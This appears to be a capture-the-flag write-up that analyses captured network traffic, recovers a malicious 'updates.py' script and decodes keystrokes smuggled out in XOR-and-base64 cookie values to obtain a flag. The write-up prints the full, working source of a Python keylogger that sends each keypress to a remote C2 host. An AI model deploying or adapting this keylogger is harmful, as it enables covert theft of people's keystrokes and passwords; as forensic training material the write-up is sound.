









# Scenario





# Question



---

# Solution



## Inspect the Traffic

First, download and extract the file. We will see a file `traffic.pcapng` 
which can be opened with **wireshark**.

I will use a wireshark filter to narrow down suspicious packets



and we find this packet trying to get the `/temp/updates.py` file.



```python
import requests

import base64

from pynput import keyboard

  

C2_URL = "http://byte-lotus-hotel.thm:8080/"

  

def getkey():

p1 = "H0t3lSt@ff0Nly"

p2 = "K3epS3cr3t!"

return p1 + p2

  

def xor(data: bytes, key: bytes) -> bytes:

return bytes(b ^ key[i % len(key)] for i, b in enumerate(data))

  

def sendltr(character):

raw_bytes = character.encode('utf-8')

encrypted = xor(raw_bytes, getkey().encode('utf-8'))

b64_string = base64.b64encode(encrypted).decode('utf-8')

headers = {

"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) ByteLotusClient/1.1",

"Cookie": f"hotel_sess_state={b64_string}"

}

try:

requests.get(C2_URL, headers=headers, timeout=0.5)

except:

pass

  

def on_press(key):

try:

sendltr(key.char)

except AttributeError:

if key == keyboard.Key.space:

sendltr(" ")

elif key == keyboard.Key.enter:

sendltr("\n")

  

print("[*] Byte Lotus Sync Service started...")

with keyboard.Listener(on_press=on_press) as listener:

listener.join()
```

`"Cookie": f"hotel_sess_state={b64_string}"`

## Extract Cookie Values

The script captures each keypress, XORs it and puts the base64 result in `hotel_sess_state`. So, let's filter for requests containing this cookie and collect the values in packet order.




the value is HA==

now check every packet one by one

`HA==,AA==,BQ==,Mw==,Hg==,ew==,Og==,fA==,Fw==,eQ==,Ow==,Fw==,Pw==,fA==,PA==,Kw==,IA==,eQ==,Jg==,Lw==,Fw==,eA==,Pg==,LQ==,Gg==,Fw==,MQ==,eA==,PQ==,NQ==`

## Decode the Data

And we decode it using `base64` in `CyberChef`


**Base64** is only the first step. The **CyberChef** recipe also uses XOR with `H`. Each character is encrypted separately, so the key starts again at its first character, `H`, for each of these values.



Finally, we got the flag!

*DONE!!!*

---